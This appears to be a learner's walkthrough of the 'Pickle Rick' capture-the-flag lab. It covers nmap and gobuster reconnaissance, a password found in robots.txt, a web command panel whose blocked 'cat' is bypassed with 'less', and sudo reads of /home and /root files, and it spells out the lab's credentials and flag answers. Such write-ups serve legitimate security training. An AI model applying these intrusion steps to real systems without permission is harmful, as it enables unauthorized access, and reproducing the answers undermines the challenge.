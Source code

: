 # Pickle Rick

## Links 
- Ip `10.10.156.59`
- webpage `http://10.10.156.59`
- `http://10.10.156.59/portal.php`

# Hints 
1. In the Home page
```sh
Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to 
finish my pickle-reverse potion. The only problem is,
I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!
```
2. There is also an Image

3. In the front end there is a hint
```sh

    Note to self, remember username!

    Username: R1ckRul3s

```



## Port Scan

`nmap -sS -sV -O 10.10.156.59 >> ports.txt`

```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-10 08:28 EDT
Nmap scan report for 10.10.156.59
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/10%OT=22%CT=1%CU=30018%PV=Y%DS=5%DC=I%G=Y%TM=668E
OS:7EEB%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508S
OS:T11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=
OS:FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=
OS:M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)
OS:T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G
OS:%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.69 seconds

```
- Now we will do an aggressive scan to that particular ssh port

```sh
nmap -A -p 22 10.10.156.59 >> ports.txt


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2b:4f:e2:1d:d4:68:ff:1b:b5:5d:e5:e2:64:9a:cf:e3 (RSA)
|   256 eb:f8:6c:c0:a7:8a:86:95:8c:5c:be:58:06:32:be:04 (ECDSA)
|_  256 6a:61:7f:8a:66:52:cd:1a:e0:5a:44:03:df:31:ea:76 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   121.97 ms 10.17.0.1
2   ... 4
5   230.55 ms 10.10.156.59

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.52 seconds

```
- Noting serious got

## Directory Enumeratino

```sh
gobuster dir -u http://10.10.156.59/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directory.txt

/assets

```

## Checkint for robots.txt
```sh
curl "http://10.10.156.59/robots.txt"

Wubbalubbadubdub

```


## Resources
- Username: R1ckRul3s
- Password: Wubbalubbadubdub (might be)
- Ingredient1: mr. meeseek hair
- Ingredient2: 1 jerry tear
- Ingredient3: fleeb juice


## Approach
1. The 3rd hint that we got its possibilly the ssh login ID
2. Our goal is to find the ingredients
3. We found a ssh port is open but nothing serious there
4. We will do a directory enumeration here
5. We can check there is any robots.txt file or not
6. Lets think `Wubbalubbadubdub` as a password for the ssh login and try to login
7. After checking.....
```sh
sudo ssh R1ckRul3s@10.10.156.59 
R1ckRul3s@10.10.156.59: Permission denied (publickey).
```

8. In /assets there is a jpg file called `portal.jpg` . If there is no password needed for the ssh only the passkey
9. There should be another login page
	1. From a bug hunting perspective I added portal.php as a directory
	2. And we found another login page there
	3. Here in `http://10.10.156.59/portal.php` I tried the password and the username and it takes it! nice!
	4. There is a command panel where linux commands are being taken
	5. If we type `ls`
```sh
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
	6. If we type `cat Sup3rS3cretPickl3Ingred.txt`
```sh
Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
```
	7. We will use all the alternatives of `cat`
	8. I asked the chatgpt it gave me a list
	9. Lets try them all and for the `less Sup3rS3cretPickl3Ingred.txt` command  we get our first ingredient `mr. meeseek hair`
- We can also try `http://10.10.156.59/Sup3rS3cretPickl3Ingred.txt`
- We will check everything in the command box via `grep -R " "`
- By this we can have code where they validated the commands
- I tried to take the priviledge with `sudo -l` this command
- we can see there is a directory `/usr/local/sbin` so now we can check its elements
- the command for that is `sudo ls ../../../*`
- This is for the second ingredient
```sh

../../../home:
rick
ubuntu
```
- This is for 3rd ingredient
```sh
../../../root:
3rd.txt
snap
```
- Command for the second ingredient
```sh
sudo ls /home/rick

second ingredient

sudo less /home/rick/second\ ingredients

1 jerry tear
```
- Command for the Third ingredient
```sh
sudo less /root/3rd.txt

3rd ingredients: fleeb juice
```
